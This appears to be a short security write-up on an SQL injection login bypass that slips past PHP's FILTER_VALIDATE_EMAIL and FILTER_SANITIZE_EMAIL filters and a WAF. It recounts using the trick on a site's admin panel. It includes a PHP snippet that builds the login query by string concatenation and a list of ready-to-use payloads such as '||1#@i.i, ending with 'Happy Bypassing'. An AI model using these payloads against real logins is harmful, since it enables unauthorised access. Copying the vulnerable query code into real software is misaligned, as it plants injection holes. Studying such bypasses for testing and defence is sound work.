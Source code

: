 # Valid Email !!

Story:
While testing a site, I came across it's admin panel and got stuck at login. The common SQLi login bypass payloads weren't working and WAF was too much disturbing.
But after observing 3 types of errors "Wrong Username or Password","Error Occured" and "Invalid Email", I found that
`'||1#@i.i` was considered as valid email and it bypassed the WAF and boom, I got in :D

After looking at the source code I saw that FILTER_SANITIZE_EMAIL and FILTER_VALIDATE_EMAIL filter were being used.

Explanation:

```
'||1#@i.i
```

is a valid email according to FILTER_VALIDATE_EMAIL filter, i.e:

```
$email = "'||1#@i.i";
$email = filter_var($email, FILTER_SANITIZE_EMAIL);
    if (filter_var($email, FILTER_VALIDATE_EMAIL)) {
		echo 'Valid email !!<br>';
    $query = "SELECT * FROM login WHERE email='$email'";
		echo $query;
	}
  
will output:
Valid email !!
SELECT * FROM login WHERE email=''||1#@i.i'
```

Therefore `'||1#@i.i` can be used as a payload for SQLi login bypass when FILTER_SANITIZE_EMAIL &/|| FILTER_VALIDATE_EMAIL are in effect.

Some other payloads:

```
--+-------------------+
'||1#@i.i
'||1=1#@i.i
'||''=''#@i.i
'||'c'='c'#@i.i
'OR''=''#@i.i
'OR'1'='1'#@i.i
'\O/R'\'/=\'/'#@i.i
'"|\|/1#@i.i
'/|\|1#@i.i
--+-------------------+
```

and some others..

FILTER_SANITIZE_EMAIL strips " therefore "||1#@i.i cannot be used

FILTER_SANITIZE_EMAIL will convert:

```
'"|\|/1#@i.i
```

to:

```
'||1#@i.i
```

Therefore it can be used when FILTER_SANITIZE_EMAIL and WAF are in place.

You can try these in vulnerable login.php file

Happy Bypassing ^i^
